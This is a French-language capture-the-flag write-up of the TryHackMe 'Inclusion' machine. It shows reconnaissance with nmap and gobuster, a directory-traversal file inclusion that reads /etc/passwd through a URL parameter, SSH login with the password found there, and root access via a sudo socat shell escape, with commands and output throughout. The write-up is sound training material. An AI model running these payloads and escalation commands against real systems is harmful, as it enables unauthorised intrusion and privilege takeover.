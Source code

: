 ##### <u>**1. NMAP**</u>

> sudo nmap -sSV -sC 10.10.163.139

- `-sV : Détection de version sur les services utilisé.`
- `-sS :  SYN Scan, scan plutôt furtif.`
- `-sC : Exécute une série de scripts sur les services trouvé.`

```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-15 11:58 CET
Nmap scan report for 10.10.163.139
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.27 seconds

```

On peut voir que le port 22(ssh) est le port 80(http) sont ouvert.

Il serait donc intéressant de tenter un gobuster sur le port 80.



##### <u>**2. GOBUSTER**</u>

> gobuster -u http://10.10.163.139-w ~/Documents/wordlist/common.txt -t 40 -x .php,.txt,.html

- `-u  :  Target.`
- `-w :  Wordilist.`
- `-t   :  Nombre de threads à lancer (par défaut 10).`
- `-x  : Extension ciblée.`

```
gobuster -u http://10.10.163.139 -w ~/Documents/wordlist/common.txt -t 40 -x .php,.txt,.html

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.163.139/
[+] Threads      : 40
[+] Wordlist     : /home/ethost/Documents/wordlist/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : php,txt,html
[+] Timeout      : 10s
=====================================================
2021/01/15 12:08:06 Starting gobuster
=====================================================
=====================================================
2021/01/15 12:10:58 Finished
=====================================================

```

Pas de chances, rien n'a été trouvé.

Allons voir se site de plus près, il y aura peut être des informations intéressantes.

![image-20210115121606246](img/image-20210115121606246.png)

Voici la page du site, ce dernier possède 3 sections nommé  "Hacking this world", "LFI-attack", "RFI-attack".

En cliquant sur le bouton en dessous de LFI-attack, on peut retrouver une page avec seulement du texte détaillant le type d'attaque qu'est LFI.

![image-20210115121833944](img/image-20210115121833944.png)

En regardant l'url de plus près on peut remarquer qu'il utilise et inclut une fonction pour inclure des pages Web, cela signifie qu'une attaque par LFI(Local file inclusion) sur la page LFI-attack! Ce n'est surement pas une coïncidence :)

Testons de trouvé le fichier passwd.

Pour cela il faudra probablement utiliser l'attaque par Directory Traversal.

Elle consiste à ajouter des ../ à la suite afin de revenir dans le repetoire racine pour que le /etc/passwd soit accessible.

C'est parti!

http://10.10.163.139/article?name=etc/passwd

![image-20210115125132162](img/image-20210115125132162.png)

http://10.10.163.139/article?name=../etc/passwd

![image-20210115125207951](img/image-20210115125207951.png)

http://10.10.163.139/article?name=../../etc/passwd

![image-20210115125242558](img/image-20210115125242558.png)

http://10.10.163.139/article?name=../../../etc/passwd

![image-20210115125311599](img/image-20210115125311599.png)

Trouvé!

L'utilisateur est donc *falconfeast* 1000:1000 (1000:1000 signifie que c'est le premier utilisateur du système).

De plus, si on regarde juste à coter de l'utilisateur on peut voir un #falconfeast:rootpassword qui devrait être le mot de passe de l'utilisateur en question.

Tentons de nous connecter en ssh avec le login et le mot de passe trouvé.

(La machine à expiré, du coup une nouvelle IP est utilisé ^^)

> ssh falconfeast@10.10.80.168

```
ssh falconfeast@10.10.80.168
The authenticity of host '10.10.80.168 (10.10.80.168)' can't be established.
ECDSA key fingerprint is SHA256:VRi7CZbTMsqjwnWmH2UVPWrLVIZzG4BQ9J6X+tVsuEQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.80.168' (ECDSA) to the list of known hosts.
falconfeast@10.10.80.168's password: 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)

Last login: Thu Jan 23 18:41:39 2020 from 192.168.1.107
falconfeast@inclusion:~$
```

Nous voilà sur la machine cible!

Allons chercher le flag user.txt.

> find / -name user.txt 2>/dev/null
>

- `-name : recherche un fichier avec le nom "user.txt"`
- `2>/dev/null : Toutes les erreurs rencontré les envoyer dans /dev/null (poubelle unix)`

```
falconfeast@inclusion:~$ find / -name user.txt 2>/dev/null
/home/falconfeast/user.txt
```

*cat user.txt*

```
falconfeast@inclusion:~$ cat user.txt 
XXXXXXXXXXXXXXXXX
```



##### <u>**3. Privilege Escalation**</u>

Etant donnée que nous avons accès à un utilisateur via ssh, nous pouvons upload l'outil linpeas pour nous aider à privesc.

> scp linpeas.sh falconfeast@10.10.80.168:.
>

```
scp linpeas.sh falconfeast@10.10.80.168:.
falconfeast@10.10.80.168's password: 
linpeas.sh
```

```
falconfeast@inclusion:~$ ls
articles  linpeas.sh  user.txt
```

Lançon linpeas.sh.

> ./linpeas.sh
>

**LEGEND:**

- **RED/YELLOW: 99% a PE vector**
- **RED: You must take a look at it**

- **LightCyan: Users with console**

- **Blue: Users without console & mounted devs**

- **Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs)** 

- **LightMangeta: Your username**

En explorant le retour de *linpeas* je suis tombé sur l'outil *socat* surligné en jaune, ce qui signifie qu'un escalade de privilege est possible.

De plus *soccat* n'a pas besoin de mot de passe pour être exécuter en root.

```
Exploit possible car socat na pas besoin de password pour être utilisé en sudo:
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat (YELLOW)
```

En allant sur https://gtfobins.github.io/ et en recherchant socat on peut retrouver une commande permettant de passer en shell root grâce à la commande sudo, c'est exactement ce qu'il nous faut!

> ￼￼sudo socat stdin exec:/bin/sh
>

```
falconfeast@inclusion:~$ sudo socat stdin exec:/bin/sh
whoami
root
```

*python3 -c 'import pty;pty.spawn ("/bin/bash")'* pour récuperer le prompt en root.

```
python3 -c 'import pty;pty.spawn ("/bin/bash")'
root@inclusion:~# 
```

Utilisons find pour trouver le fichier root.txt

> find / -name root.txt 2>/dev/null
>

```
root@inclusion:~# find / -name root.txt 2>/dev/null
find / -name root.txt 2>/dev/null
/root/root.txt
```

> cat /root/root.txt
>

```
root@inclusion:~# cat /root/root.txt
cat /root/root.txt
XXXXXXXXXXXXXXXXXXXX
```



Celà conclu donc la box <u>Inclusion</u> sur la plateforme <u>TryHackMe</u>.

<u>Ethost.</u>